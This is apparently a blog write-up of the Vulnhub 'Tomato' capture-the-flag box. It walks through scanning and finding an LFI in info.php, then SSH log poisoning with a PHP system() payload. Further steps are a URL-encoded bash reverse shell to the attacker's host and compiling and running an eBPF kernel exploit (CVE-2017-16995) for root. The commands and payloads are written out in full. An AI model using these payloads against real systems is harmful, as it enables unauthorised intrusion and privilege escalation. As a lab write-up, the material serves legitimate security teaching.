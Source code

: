```yaml
---
title: Vulnhub - Tomato
description: My writeup on Tomato box.
categories:
 - vulnhub
tags: vulnhub LFI logpoisoning kernel
---
```


![](https://www.hdwallpaper.nu/wp-content/uploads/2017/03/tomato-3.jpg)

You can find the machine there > [Tomato](https://www.vulnhub.com/entry/tomato-1,557/){:target="_blank"}

## Summary

This one was a pretty good one, a bit "advanced". We start by finding an LFI on `info.php` page this drive us to a ssh log poisoning attack. After gaining a low-privilege shell we can privesc to root by exploiting an old kernel version. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00012s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2211/tcp open  emwin
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:04:21:BA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
$ nmap -p 21,80,2211,8888 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
```

Lot of stuff to enumerate, let's focus on port 80 first. I tried to run gobuster on it but nothing:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/server-status (Status: 403)
```

Then i had the idea to run dirb on it and it worked, an interesting directory showed up.

```
$ dirb http://$ip/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 19 13:38:33 2020
URL_BASE: http://192.168.1.16/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.16/ ----
==> DIRECTORY: http://192.168.1.16/antibot_image/         
```

Has lot of stuff in, but only `info.php` is useful.

![](https://i.imgur.com/VXTvdXH.png)

A good practise is always to check the source code of a page, even if it is a php one you never know. `info.php` has a really interesting comment!

```html
<!-- </?php include $_GET['image']; -->
```

`include == LFI` Since the super global variable `$_GET` has the `image` in the payload will go like that:

```
$ curl http://192.168.1.16/antibot_image/antibots/info.php\?image\=../../../../../../../../../etc/passwd             

.. data ..

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```

## Shell as www-data

I enumerated a lot, but nothing. One thing left, that is log poisoning but we need to be able to read log files. And we can do SSH log poisoning because we can read the `/var/log/auth.log`!

First we have to login with a php code as username:

```
$ ssh '<?php system($_GET["cmd"]);?>'@$ip -p 2211
<?php system($_GET["cmd"]);?>@192.168.1.16's password: 
```

Now we have command execution:

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=id
```

In the end we can see this:

```
invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's simply now URL encode our reverse shell and send it. You can use this awesome tool to URL encode/decode from terminal:

```
sudo apt-get install gridsite-clients
```

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@ubuntu:/var/www/html/antibot_image/antibots$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

## Shell as root

I noticed that kernel is pretty old:

```
www-data@ubuntu:/$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Let's fire up [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"} :fire:

```
www-data@ubuntu:/tmp$ wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ bash linux-exploit-suggester.sh

..data..

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

This one seems good, but system haven't `gcc` installed so let's download and compile it on our box and then trasnfer it.

```
$ wget -q https://www.exploit-db.com/download/45010 -O root.c
$ gcc root.c -o root
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
www-data@ubuntu:/tmp$ wget -q http://192.168.1.14/root                                                                                
www-data@ubuntu:/tmp$ chmod +x root
www-data@ubuntu:/tmp$ ./root
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800356b2200
[*] Leaking sock struct from ffff88003b71a580
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800325b92c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800325b92c0
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Let's read the flag.

```
# cat proof.txt
Sun_CSR_TEAM_TOMATO_JS_0232xx23
```

What an awesome box!!! :smile:
